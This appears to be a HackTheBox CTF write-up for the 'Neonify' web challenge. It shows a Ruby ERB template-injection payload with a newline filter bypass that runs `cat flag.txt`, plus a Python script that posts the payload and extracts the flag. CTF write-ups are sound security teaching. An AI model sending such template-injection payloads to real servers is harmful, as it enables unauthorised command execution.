 ```yaml
---
title: HackTheBox -- Neonify Writeup
date: 2025-08-28 00:00:00 +0800
categories: [web challenges]
tags: [Ruby-SSTI]
image:
    path: images/hackthebox.png
---
```

# HackTheBox — Neonify [Easy]

In this write-up, we will solve the **Neonify** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.

![image.png](../images/neonify.png)

Now let’s see the source code of the application.

![image.png](../images/neonify%201.png)

> Notice that we found that our input is used in a template engine named ERB.
> 

Now let’s exploit the **template injection**.

```python
SecretRemo%0a<%25=+`cat+flag.txt`+%25>
```

![image.png](../images/neonify%202.png)

> As we see we managed to get the flag!
> 

Now let’s write the exploitation script for the challenge

```python
import requests
import re

target = input("Please Enter Target (ex: 127.0.0.1:1337): ")
url = f"http://{target}/"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

data = "neon=SecretRemo%0a<%25=+`cat+flag.txt`+%25>"

def exploit():
    try:
        r = requests.post(url, headers=headers, data=data, timeout=5)

        match = re.search(r"(HTB\{.*?\})", r.text)
        if match:
            print("[+] FLAG:", match.group(1))
        else:
            print("[!] Flag not found in response")
    except requests.RequestException as e:
        print(f"[!] Request failed: {e}")

if __name__ == "__main__":
    exploit()

```

![image.png](../images/neonify%203.png)

Now let’s go and run the script to get the flag!

![image.png](../images/neonify%204.png)

> As we see we got the flag!
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT
